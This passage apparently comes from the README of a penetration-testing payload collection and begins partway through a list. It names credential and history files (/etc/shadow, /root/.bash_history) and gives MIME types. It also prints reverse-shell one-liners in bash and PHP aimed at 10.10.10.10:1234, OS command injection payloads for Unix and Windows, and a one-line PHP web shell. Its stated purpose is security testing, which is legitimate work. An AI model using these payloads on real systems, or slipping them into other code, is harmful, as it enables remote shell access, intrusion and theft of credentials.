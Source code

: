 Examples:
- `/etc/passwd`
- `/etc/shadow`
- `/root/.bash_history`

---

### 9. **Media Type (MIME) Testing**
A list of MIME types to test server handling of file uploads and downloads.

Examples:
```
application/javascript
text/html
image/svg+xml
```

---

### 10. **One-Liner Reverse Shells**
Pre-built one-liner payloads to establish reverse shells for testing post-exploitation scenarios.

Examples:
```bash
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
php -r '$sock=fsockopen("10.10.10.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

### 11. **OS Command Injection Payloads**
#### Unix Payloads
Payloads for testing OS command injection vulnerabilities on Unix systems.
```bash
; whoami
| ls -la
$(id)
```

#### Windows Payloads
Payloads for testing OS command injection vulnerabilities on Windows systems.
```cmd
& whoami
| dir
```

---

### 12. **PHP Code Injection Payloads**
Payloads to test PHP code injection vulnerabilities.
```php
<?php system($_GET['cmd']); ?>
```

---